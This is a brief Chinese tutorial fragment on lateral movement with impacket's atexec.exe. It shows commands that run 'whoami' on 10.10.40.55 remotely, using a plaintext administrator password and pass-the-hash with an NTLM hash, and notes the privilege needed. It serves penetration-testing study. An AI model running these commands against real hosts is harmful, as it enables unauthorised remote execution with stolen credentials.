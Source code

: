 ## 使用第三方工具，atexec

[impacket-examples-windows](https://github.com/maaaaz/impacket-examples-windows)

	atexec.exe ./administrator:1234.bmk!@10.10.40.55 "whoami"
	atexec.exe lmrsec/administrator:1234.bmk!@10.10.40.55 "whoami"
	atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@10.10.40.55 "whoami"

首次执行要输入2次才可以执行成功(需要域管权限)：

![](images/47.jpg)

域用户权限：

![](images/48.jpg)

账户口令错误：

![](images/49.jpg)

